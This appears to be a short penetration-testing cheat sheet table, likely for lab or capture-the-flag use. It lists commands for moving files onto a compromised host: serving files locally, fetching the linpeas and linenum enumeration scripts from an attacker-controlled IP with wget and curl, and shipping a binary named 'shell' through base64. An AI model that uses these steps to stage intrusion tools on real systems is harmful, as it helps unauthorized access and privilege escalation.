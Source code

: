 ## Transfering files

|command|Description|
|---|---|
|python3 -m http.server 8000|Start a local webserver|
|wget http://10.10.14.1:8000/linpeas.sh|Download a file on the remote server from our local machine|
|curl http://10.10.14.1:8000/linenum.sh -o linenum.sh|Download a file on the remote server from our local machine|
|scp linenum.sh user@remotehost:/tmp/linenum.sh|Transfer a file to the remote server with scp (requires SSH access)|
|base64 shell -w 0|Convert a file to base64|
|echo f0VMR...SNIO...InmDwU | base64 -d > shell|Convert a file from base64 back to its orig|
|md5sum shell|Check the file's md5sum to ensure it converted correctly|